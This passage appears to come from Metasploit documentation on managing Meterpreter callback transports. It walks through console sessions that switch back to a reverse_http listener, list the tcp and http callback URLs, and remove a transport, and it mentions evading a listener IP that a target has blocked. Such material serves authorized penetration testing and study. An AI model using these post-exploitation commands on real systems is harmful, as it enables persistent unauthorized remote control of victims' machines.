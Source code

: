 From here, moving backward sends Meterpreter back to the `reverse_http` listener:

```bash
meterpreter > transport prev
[*] Changing to previous transport ...

[*] 10.1.10.40:46245 (UUID: 8e97549ed2baf6a8/x86_64=2/windows=1/2015-06-02T09:56:05Z) Attaching orphaned/stageless session ...
[+] Successfully changed to the previous transport, killing current session.

[*] 10.1.10.35 - Meterpreter session 3 closed.  Reason: User exit
msf exploit(handler) > [*] Meterpreter session 4 opened (10.1.10.40:5105 -> 10.1.10.40:46245) at 2015-06-02 20:55:07 +1000

msf exploit(handler) > sessions -i 4
[*] Starting interaction with 4...

meterpreter > transport list
Session Expiry  : @ 2015-06-09 19:56:05

    Curr  URL                                                                                                    Comms T/O  Retry Total  Retry Wait
    ----  ---                                                                                                    ---------  -----------  ----------
    *     http://10.1.10.40:5105/jpdUntK69qiVKZQrwETonAkuobdXaVJovSXlqkvd7s5WB58Xbc3fNoZ5Cld4kAfVJgbVFsgvSpH_N/  100000     50000        2500
          tcp://10.1.10.40:5005                                                                                  300        3600         10
          tcp://10.1.10.40:6000                                                                                  300        3600         10
```

### Remove transports

It is also possible to remove transports from the underlying transport list. This is valuable in cases where you want Meterpreter to always callback on stageless listeners (allowing you to avoid the unnecessary upload of the second stage), or when you have a listener located at an IP address that may have been blacklisted by your target as a result of your post-exploitation shenanigans.

The command is similar to `add` in that it takes a subset of the parameters, and then adds a new one on top of it:

* `-t` - The transport type.
* `-l` - The `LHOST` value (unless it's `bind_tcp`).
* `-p` - The `LPORT` value.
* `-u` - This value is only required for `reverse_http/s` transports and needs to contain the URI of the transport in question. This is important because there might be multiple listeners on the same IP and port, so the URI is what differentiates each of the sessions.

```bash
[*] Starting interaction with 2...

meterpreter > transport list
Session Expiry  : @ 2015-07-10 07:39:08

    Curr  URL                                                                                                             Comms T/O  Retry Total  Retry Wait
    ----  ---                                                                                                             ---------  -----------  ----------
    *     tcp://10.1.10.40:5000                                                                                           300        3600         10
          http://10.1.10.40:9090/jYGS61OX8On-Dv8Pq5v9FAJAEobAlrL4J2FBOf_3DsnZzCJAY6-Dh_8AeWdrkFwRbQdvz4vOo8let4huygVLPJ/  300        3600         10

meterpreter > transport remove -t reverse_http -l 10.1.10.40 -p 9090 -u jYGS61OX8On-Dv8Pq5v9FAJAEobAlrL4J2FBOf_3DsnZzCJAY6-Dh_8AeWdrkFwRbQdvz4vOo8let4huygVLPJ
```